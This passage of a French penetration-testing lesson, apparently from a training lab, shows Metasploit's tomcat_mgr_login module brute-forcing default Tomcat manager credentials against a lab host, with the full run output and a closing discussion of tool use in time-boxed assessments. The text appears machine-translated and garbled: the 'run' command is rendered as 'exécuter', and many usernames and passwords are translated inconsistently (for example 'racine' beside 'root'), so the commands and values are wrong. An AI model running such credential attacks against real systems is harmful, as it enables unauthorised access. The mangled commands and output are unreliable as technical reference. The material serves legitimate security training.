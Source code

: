 ```
    USER_FILE /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt non Fichier contenant les utilisateurs, un par ligne
    VERBOSE vraioui s'il faut imprimer la sortie pour toutes les tentatives
    VHOST web01.inlanefreight.local non Hôte virtuel du serveur HTTP

```

Nous appuyons sur `run` et obtenons un résultat pour la paire d'informations d'identification `tomcat:admin`.

```
msf6 auxiliaire (scanner/http/tomcat_mgr_login) > exécuter

[!] No active DB -- Les données d'identification ne seront pas enregistrées !
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : admin : admin (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : admin : gestionnaire (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : admin : rôle1 (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : admin : root (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : admin : tomcat (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : admin:s3cret (Incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : admin : vagabond (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : gestionnaire : administrateur (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : gestionnaire : gestionnaire (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : gestionnaire : rôle1 (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : gestionnaire : racine (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : gestionnaire : tomcat (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : gestionnaire : s3cret (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : gestionnaire : vagabond (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : rôle1 : administrateur (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : rôle1 : gestionnaire (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : rôle1 : rôle1 (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : rôle1 : racine (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : rôle1 : tomcat (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : role1:s3cret (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : rôle1 : vagabond (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : root : admin (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : racine : gestionnaire (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : racine : rôle1 (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : racine : racine (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : racine : tomcat (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : root : s3cret (incorrect)
[-] 10.129.201.58:8180 - ÉCHEC DE LA CONNEXION : racine : vagabond (incorrect)
[+] 10.129.201.58:8180 - Connexion réussie : tomcat:admin
[*] Scanné 1 des 1 hôtes (100% complet)
[*] Exécution du module auxiliaire terminée

```

Il est important de noter qu'il existe de nombreux outils à notre disposition en tant que testeurs d'intrusion. Beaucoup existent pour rendre notre travail plus efficace, d'autant plus que la plupart des tests d'intrusion sont "time-boxed" ou soumis à des contraintes de temps strictes. Aucun outil n'est meilleur qu'un autre, et cela ne fait pas de nous un "mauvais" testeur d'intrusion si nous utilisons certains outils comme Metasploit à notre avantage. À condition que nous comprenions chaque scanner et script d'exploitation que nous exécutons et les risques, l'utilisation correcte de ce scanner n'est pas différente de l'utilisation de Burp Intruder ou de l'écriture d'un script Python personnalisé. Certains disent : "travaillez plus intelligemment, pas plus dur". Pourquoi ferions-nous un travail supplémentaire pour nous-mêmes lors d'une évaluation de 40 heures avec 1 500 hôtes concernés alors que nous pouvons utiliser un outil particulier pour nous aider ? Il est essentiel pour nous de comprendre `comment` nos outils fonctionnent et comment faire beaucoup de choses manuellement. Nous pourrions essayer manuellement chaque paire d'informations d'identification dans le navigateur ou le script en utilisant `cURL` ou Python si nous le souhaitons. À tout le moins, si nous décidons d'utiliser un certain outil, nous devrions être en mesure d'expliquer son utilisation et son impact potentiel à nos clients s'ils nous interrogent pendant ou après l'évaluation.
